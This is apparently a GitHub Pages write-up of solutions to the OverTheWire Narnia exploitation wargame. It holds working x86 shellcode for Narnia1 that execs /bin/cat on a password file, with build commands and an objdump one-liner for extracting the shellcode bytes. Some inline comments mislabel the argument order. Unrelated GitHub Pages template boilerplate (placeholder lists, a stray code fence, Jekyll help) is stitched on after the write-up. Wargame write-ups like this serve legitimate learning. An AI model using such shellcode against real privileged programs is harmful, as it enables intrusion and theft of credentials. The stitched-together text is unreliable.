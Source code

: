 ## Narnia Solutions

Here are short solutions I have written for Narnia levels. This is a wargame in overthewire.org. The main subject of the game is exploitation. I wrote only where I felt that there were not many sufficient solutions to the level.

### Narnia0

Well, I think that there are plany well written solutions for this level. I would like to mention, however, that the shellcode should be generated inside the shell (use python or ruby or perl, etc') because for some unusual reason, pasting a prepeared shellcode inside the shell **will not work**.


### Narnia1

To solve this level, we need to know assembly, x86 in this case (typing "lscpu" will reveal us the architecture and byte order, which are **important** for out shellcode). There are planty writeup's for this level, which most of them are incorrect (but I do recommand reading them in order to understand what is wrong), however. Moreover, I would advise you to learn how to write a shellcode in linux, because copying and pasting a shellcode from shell storm won't work in this case. So after we figure out that there is a buffer overflow with the enviromental variable, we want to inject our shellcode. Remeber, no null bytes and illegal chars!
Because spawning a regular shell won't work (the shell will be privileged with narnia1 user), we want to use the our vulnerability to open narnia2 password file. Let's dive into our shell code:

`section .text
	global _start

_start:
	xor eax,eax
	push eax          ;end of the /bin/cat string
	push 0x7461632f
	push 0x6e69622f
	mov ebx, esp      ;ebx points to the start of the string
	push eax
	push 0x3261696e
	push 0x72616e2f
	push 0x73736170
	push 0x5f61696e
	push 0x72616e2f
	push 0x6374652f
	mov ecx, esp      ;ecx points to the start of the string (/etc/narnia_pass/narnia2)
  push eax          ;array has to end with null
	mov al, 11        ;we use execve syscall, numbered 11
	mov edx, esp      ;edx points to null (we don't need char *const envp[])
	push ecx          ;push the first arg (/etc/narnia_pass/narnia2)
	push ebx          ;push the second arg (/bin/cat
	mov ecx, esp      ;ecx points to array with two args
	int 0x80
`
Now, we want to compile our code and link it, thus:
`nasm -f elf shell.asm -o shell.o
ld -m elf_i386 -s shell.o -o shell
`
(-m elf_i386 is not necessary, but was in my case)

Okay, let's extract our shellcode:
`for i in $(objdump -M intel -d shell | grep "^ "|cut -f2); do echo -n '\x'$i;done;echo`
and wallah!


- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/int3rsys/Narnia-solutions/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
